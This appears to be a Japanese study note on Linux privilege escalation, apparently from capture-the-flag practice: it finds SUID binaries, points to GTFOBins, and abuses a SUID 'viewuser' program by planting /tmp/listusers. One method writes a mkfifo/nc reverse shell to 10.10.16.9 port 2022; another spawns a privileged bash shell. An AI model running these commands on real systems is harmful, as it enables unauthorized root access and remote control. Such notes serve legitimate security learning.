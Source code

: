 
   1.SUIDまたはSGIDビットが「s」で設定されているコマンドを特定する。
```sh
find / -type f -perm -04000 -ls 2>/dev/null
```

   2. 上記で見つかったものを以下のサイトで調べる。
	https://gtfobins.github.io/#
   3. 上記のサイトで有効な手段が見つからなかった場合。
	  例えば、nanoユーザにrootとして実行できる権限が付与されている場合、その権限を使用して、rootが所有しているファイルでも関係なく読み取るか書き換えることが可能になる。
      
## 
方法1
```
# echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 2022 >/tmp/f" > /tmp/listusers
# chmod 777 listusers
# /usr/bin/viewuser
```
rm /tmp/f:ファイルを消そうとしている。
mkfifo /tmp/f:???

方法2
```
# echo "/bin/bash -p" > /tmp/listusers
# chmod 777 listusers
# /usr/bin/viewuser
```